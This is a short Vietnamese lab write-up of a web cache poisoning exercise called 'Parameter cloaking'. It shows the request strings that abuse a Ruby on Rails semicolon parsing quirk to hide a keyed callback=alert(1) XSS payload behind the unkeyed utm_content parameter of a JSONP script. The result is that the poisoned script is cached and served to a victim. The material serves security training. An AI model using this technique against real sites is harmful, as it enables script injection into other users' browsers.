




# Lab: Parameter cloaking

Có reflect query parameter vào response header, nhưng nếu đổi giá trị parameter thì `cache: miss`.

Tìm kiếm query parameter, thấy `utm_content`:


Kiểm tra /js/geolocate.js?callback=setCountryCookie thấy có gọi đến setCountryCookie trong file js:

```
const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
setCountryCookie({"country":"United Kingdom"});
```

Thử thay đổi giá trị `callback` thành XSS payload:

```
/js/geolocate.js?callback=alert(1)
```

-> thấy reflect vào response:


Tuy nhiên `callback` là keyed param, nên chưa poison cache được.

Khi có `utm_content`, mục tiêu là cache được `callback` bằng cách tận dụng sai khác xử lý giữa server và cache.


Khi thử với payload:

```
/js/geolocate.js?callback=setCountryCookie&utm_content=12344&callback=alert(1)
```

-> thấy cache hit, callback vẫn reflect nhưng vẫn chưa poison cache.

-> cần khai thác quirk đối với Ruby on Rails:

```
/js/geolocate.js?callback=setCountryCookie&utm_content=12344;callback=alert(1)
```

Nhận thấy callback vẫn reflect, `cache hit` vẫn xảy ra, và callback đã bị cache poisoning:


-> deliver to victim, Lab solved
